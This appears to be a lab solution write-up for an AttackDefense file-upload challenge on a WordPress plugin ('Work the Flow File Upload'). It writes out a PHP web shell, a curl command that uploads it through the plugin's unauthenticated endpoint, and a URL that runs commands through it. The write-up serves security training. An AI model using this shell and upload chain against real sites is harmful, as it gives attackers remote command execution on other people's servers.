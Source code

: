 ﻿![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.001.png)

![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.002.png)
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">WordPress Plugin </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=241>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : File Upload </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref1]

![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.004.jpeg)

Login to the web application and identify the installed plugins.  

Navigate to the admin login panel, click on the “Log in” hyperlink under “META” section. 

Admin login panel: ![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.005.png)![ref1]

![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.006.jpeg)

The login credential of the web application is provided in the challenge description: 

- Username: pentester 
- Password: password1 

Admin Dashboard:** 

![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.007.jpeg)

Navigate to the “Plugins” tab on the left panel. ![ref1]

![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.008.jpeg)

“Work the Flow File Upload” plugin is installed. 

**Step 2:** Search on google “Wordpress Work the Flow File Upload file upload” and look for publically available exploits.**  

![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.009.jpeg)

The exploit db link contains the steps to be followed in order to exploit the vulnerability. ![ref1]**Exploit DB Link: <https://www.exploit-db.com/exploits/36640>** 

**Step 3:** Create a PHP web shell. ![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.010.jpeg)

Save the below given php script as shell.php 

<?php 

$output = shell\_exec($\_GET["cmd"]); echo "<pre>$output</pre>"; 

?> 

**Command:** cat shell.php ![ref1]

![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.011.png)

**Step 4:** Upload the web shell using curl command 

**Command:** curl -k -X POST -F "action=upload" -F "files=@./shell.php" http://9f8fa39xan4m8igpejgdexdjn.asia.attackdefenselabs.com/wp-content/plugins/work-the-flow -file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php 

![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.012.jpeg)

The file will be uploaded to the directory “/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php /files/”. 

**Step 5:** Access the uploaded PHP script. 

**URL:** http://9f8fa39xan4m8igpejgdexdjn.asia.attackdefenselabs.com/wp-content/plugins/work-the-flow -file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell.php 

![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.013.png)

No output is returned since the cmd parameter was not passed. **Step 6:** Execute system commands through “cmd” GET parameter. **Command:** id 

**URL: ![ref1]**http://9f8fa39xan4m8igpejgdexdjn.asia.attackdefenselabs.com/wp-content/plugins/work-the-flow -file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell.php?cmd=id 

![](Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.014.png)

The “id” command was executed on the web server and the output was dumped on the web page. 

**References:**  

1. Work The Flow File Upload (<https://github.com/wp-plugins/work-the-flow-file-upload>)  ![ref1]
1. WordPress Plugin Work The Flow File Upload 2.5.2 - Arbitrary File Upload (<https://www.exploit-db.com/exploits/36640>)  

[ref1]: Aspose.Words.8fd36955-d500-4f99-b5cd-023c9f76cb4c.003.png
